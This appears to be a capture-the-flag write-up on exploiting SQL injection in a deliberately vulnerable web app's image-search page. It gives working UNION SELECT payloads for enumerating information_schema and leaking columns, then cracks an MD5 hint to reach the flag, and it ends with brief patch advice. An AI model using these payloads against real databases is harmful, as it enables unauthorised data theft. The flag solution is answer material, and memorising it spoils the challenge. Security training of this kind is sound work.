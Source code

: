 # [SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## WriteUp
On route `index.php?page=searchimg`, there is a prompt that allows us to search for an image within the database by specifying it's ID. Entering a number between 1 and 5 displays the title and a url of the image.
d
Checking for Sql injections, we can pass the prompt `1 OR 1 = 1`. This causes all images to be displayed, meaning we can preform SQL Injections on the database. To gather data on the all the tables within the database and their columns, let use the prompt `1 OR 1 = 1 UNION SELECT table_name,column_name FROM information_schema.columns`.

This causes the webapp to render out all tables within the database and their colums, here is a simplified view:
``` ts
db = {
	"db_default": {
		"id": number,
		"username": string,
		"password": string,
	},
	"users": { // members
		"user_id": number,
		"first_name": string,
		"last_name": string,
		"town": string,
		"country": string,
		"planet": string,
		"Commentaire": string, 
		"coubtersign": string, // md5 hash
	},
	"guestbook": { //
		"id_comment": number,
		"comment": string,
		"name": string,
	},
	"list_images": { // Images
		"id": number,
		"url": string,
		"title": string,
		"comment": string,
	},
	"vote_dbs": {
		"vote": any, // I have no idea
		"nb_vote": number,
		"subject": string,
	},
}
```

Using `1 UNION SELECT title,%colunm% FROM list_images`, where `%column%` is a column in `list_images`, we can leak all the colunms for each image in `list_images`. We get the folowing image that looks interesting:
``` json
{
  "images": { 
    "id": 5,
	"url": "Hack me ?",
	"Commentaire": "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46",
  },
}
```

Decripting the password with an [MD5 decryptor](https://md5decrypt.net/en/#answer), we get the password `albatroz`, getting the Sha256 of `albatroz` nets us the flag.

## Possible Patches
Sanitizing your input and parameterizing your input is the best way to prevent sql injections. By removing/encoding dangerous characters you can prevent injections from happening.